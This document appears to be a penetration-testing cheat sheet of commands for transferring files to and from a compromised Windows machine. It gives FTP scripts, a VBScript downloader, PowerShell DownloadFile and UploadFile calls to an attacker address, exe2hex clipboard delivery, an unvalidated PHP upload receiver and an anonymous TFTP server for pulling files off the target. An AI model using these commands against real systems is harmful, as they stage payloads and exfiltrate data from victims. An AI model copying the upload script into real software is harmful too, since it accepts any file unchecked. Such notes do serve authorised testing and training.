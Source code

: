 # File Uploads

## Windows 

### Non-interactive FTP

```
echo open ipaddress> ftp.txt
echo USER username>> ftp.txt
echo password>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
ftp -n -v -s:ftp.txt
```

### VBScript

```
curl -L -O https://gist.githubusercontent.com/maddouri/da64f298e19bff0cd1ce46ee83317bfe/raw/90080a73b892b09dde9dd2c787814bac502d7f46/wget.vbs
```
```
cat wget.vbs | sed -e 's/^/echo /' | sed -e 's/$/>> wget.vbs/' > wget.vbs.echo
cat wget.vbs.echo | xclip -selection clipboard
```
```
cscript wget.vbs <url> (file)
```

### Powershell

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://ipaddress/filename', 'filename')
```

### Clipboard

```
upx -9 file.exe # compresses the file inplace
exe2hex -x file.exe -p fild.cmd
cat file.cmd | xclip -selection clipboard
```

# File Downloads

## Local upload PHP

```
sudo mkdir /var/www/uploads
sudo chown www-data /var/www/uploads
```
In `/var/www/html/upload.php`:
```
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
?>
```
From target:
```
powershell (New-Object System.Net.WebClient).UploadFile('http://ipaddress/upload.php', 'filename')
```

### TFTP

```
sudo atftpd --daemon --port 69 /tftp
```
Credential-less transfer!
```
tftp -i ouripaddress put filename
```
